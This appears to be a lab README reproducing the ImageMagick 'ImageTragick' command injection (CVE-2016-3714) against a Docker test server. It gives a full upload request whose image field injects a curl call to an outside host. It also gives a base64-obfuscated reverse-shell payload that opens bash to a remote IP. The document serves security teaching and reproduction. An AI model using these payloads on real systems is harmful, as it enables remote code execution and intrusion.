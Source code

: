 # Imagemagick Command Injection Vulnerability (CVE-2016–3714)

[中文版本(Chinese version)](README.zh-cn.md)

ImageMagick is a free and open-source cross-platform software suite for displaying, creating, converting, modifying, and editing raster images.

Referers:

- https://imagetragick.com
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html
- https://github.com/ImageTragick/PoCs

## Environment Setup

Execute the following command to start a PHP server that includes Imagemagick 6.9.2-10:

```
docker-compose up -d
```

## Exploit

Visit `http://your-ip:8080/` to see an upload component.

Send the following request:

```
POST / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 328

------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```

It can be seen that `www.leavesongs.com:8889` has received the http request, after the curl command was executed successfully:

![](2.png)

POC of getting a reverse shell：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```

![](3.png)
